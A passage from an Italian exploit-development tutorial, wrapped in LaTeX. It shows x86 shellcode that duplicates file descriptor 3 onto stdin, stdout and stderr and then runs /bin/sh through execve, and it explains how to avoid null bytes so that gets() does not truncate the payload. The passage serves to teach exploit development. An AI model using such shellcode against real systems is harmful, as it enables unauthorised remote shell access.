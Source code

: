 \documentclass[11pt,a4paper]{article}
\begin{document}
/* 2.2 dup2(3, 0) - Reindirizziamo lo STDIN */

mov al, 0x3f ; 0x3f è 63 in esadecimale (identificativo di dup2)

xor ecx, ecx ; Un modo elegante per impostare ECX a 0 (STDIN)

int 0x80 ; Eseguiamo la System Call

/* 2.3 dup2(3, 1) - Reindirizziamo lo STDOUT */

mov al, 0x3f ; Ricarichiamo 63 in EAX (AL)

mov cl, 1 ; Mettiamo 1 in ECX (STDOUT)

int 0x80 ; Eseguiamo la System Call

/* 2.4 dup2(3, 2) - Reindirizziamo lo STDERR */

mov al, 0x3f ; Ricarichiamo 63 in EAX (AL)

mov cl, 2 ; Mettiamo 2 in ECX (STDERR)

int 0x80 ; Eseguiamo la System Call

/* FASE 3: L\textquotesingle Esecuzione (Generata da shellcraft.sh) */

/* A questo punto, pwntools genera l\textquotesingle assembly per
eseguire

sys\_execve("/bin/sh", NULL, NULL). L\textquotesingle output e
l\textquotesingle input di

questa shell viaggeranno ora attraverso il FD 3. */

\subsubsection{L\textquotesingle Arte di evitare i Bad Characters in
Assembly}\label{larte-di-evitare-i-bad-characters-in-assembly}

Se osserviamo attentamente il codice Assembly che abbiamo scritto per la
Fase 2, noteremo delle scelte stilistiche particolari. Questa è
l\textquotesingle essenza dello sviluppo di exploit (Exploit
Development).

\textbf{Perché non abbiamo usato istruzioni standard come mov eax, 63 o
mov ecx, 0?}

La risposta risiede nei \emph{Bad Characters} analizzati nel capitolo
precedente. Se scrivessimo mov eax, 63 (che in esadecimale è 0x3f), il
compilatore Assembly, sapendo che EAX è un registro a 32-bit (4 byte),
tradurrebbe l\textquotesingle istruzione in linguaggio macchina
riempiendo gli spazi vuoti con degli zeri: B8 3F 00 00 00

Questa sequenza contiene ben tre \textbf{Null Byte} (0x00). Come
sappiamo, la funzione gets() del nostro programma C vulnerabile si
fermerebbe al primo 0x00, troncando il nostro shellcode e facendo
fallire l\textquotesingle attacco.
\end{document}
